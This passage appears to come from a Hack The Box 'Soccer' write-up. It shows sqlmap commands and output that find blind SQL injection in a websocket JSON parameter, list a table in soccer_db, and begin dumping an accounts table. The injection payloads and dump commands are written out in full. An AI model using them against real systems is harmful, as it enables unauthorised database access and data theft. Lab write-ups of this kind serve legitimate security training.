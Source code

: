 ```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "94530"}' --dbms mysql --batch --level 5 --risk 3 --threads 10 -D soccer_db --tables
        ___
       __H__                                                  
 ___ ___["]_____ ___ ___  {1.7.8#stable}                          
|_ -| . ["]     | .'| . |                                           
|___|_  [']_|_|_|__,|  _|                                    
      |_|V...       |_|   https://sqlmap.org                                                                                            
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:44:32 /2024-03-08/

JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[20:44:33] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "94530 AND 6914=6914"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id": "94530 AND (SELECT 3404 FROM (SELECT(SLEEP(5)))xhYU)"}
---
[20:44:36] [INFO] testing MySQL
[20:44:36] [INFO] confirming MySQL
[20:44:36] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 8.0.0
[20:44:36] [INFO] fetching tables for database: 'soccer_db'
[20:44:36] [INFO] fetching number of tables for database 'soccer_db'
[20:44:36] [INFO] resumed: 1
[20:44:36] [INFO] retrieving the length of query output
[20:44:36] [INFO] retrieved: 
[20:44:36] [INFO] resumed: accountq
Database: soccer_db
[1 table]
+----------+
| accountq |
+----------+

[20:44:36] [INFO] fetched data logged to text files under '/home/emvee/.local/share/sqlmap/output/soc-player.soccer.htb'
[20:44:36] [WARNING] your sqlmap version is outdated

[*] ending @ 20:44:36 /2024-03-08/

```
There is one table found and it is called `accountq`, I believe this is wrong and it should be `accounts`. Let's try to dump the data in this table.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "94530"}' --dbms mysql --batch --level 5 --risk 3 --threads 10 -D soccer_db -T accounts --dump   
        ___
       __H__                                                
 ___ ___[.]_____ ___ ___  {1.7.8#stable}                      
|_ -| . [(]     | .'| . |                       
|___|_  [.]_|_|_|__,|  _|                          
```